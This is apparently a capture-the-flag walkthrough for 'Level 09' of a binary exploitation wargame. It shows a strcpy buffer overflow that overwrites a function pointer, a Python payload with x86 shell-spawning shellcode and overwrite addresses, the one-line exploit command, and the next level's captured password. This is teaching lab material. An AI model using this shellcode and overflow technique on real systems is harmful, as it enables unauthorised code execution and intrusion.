 # Level 09 Walkthrough

## Binary analysis

The binary uses function pointers and user-controlled data, making it vulnerable to a buffer overflow. By overflowing a buffer, we can inject shellcode and overwrite a function pointer to execute arbitrary code.

### Key decompiled code

- The program allocates memory and uses user input to set up function pointers and buffers. Eventually, it calls a function pointer that can be overwritten via a buffer overflow.
- Example vulnerable code:
    ```c
    char buffer[...];
    // ...
    strcpy(buffer, user_input); // vulnerable
    // ...
    call function_pointer; // can be overwritten
    ```

## Exploitation

We craft a payload that:
- Injects shellcode into the buffer
- Adds padding to reach the function pointer
- Overwrites the function pointer with the address of our shellcode

Example payload (Python):
```python
shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
payload = b"\x10\xa0\x04\x08" + shellcode + b"A"*76 + b"\x0c\xa0\x04\x08"
with open("payload.txt", "wb") as f:
    f.write(payload)
```
Or directly:
```
./level9 $(python -c 'print("\x10\xa0\x04\x08"+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"+76*"A"+"\x0c\xa0\x04\x08")')
```

## Commands used

```
./level9 $(python -c 'print("\x10\xa0\x04\x08"+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"+76*"A"+"\x0c\xa0\x04\x08")')
cat /home/user/bonus0/.pass
```

## Result

After running the exploit, we get the password for bonus0:

```
cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```

Copy the password for the next level. 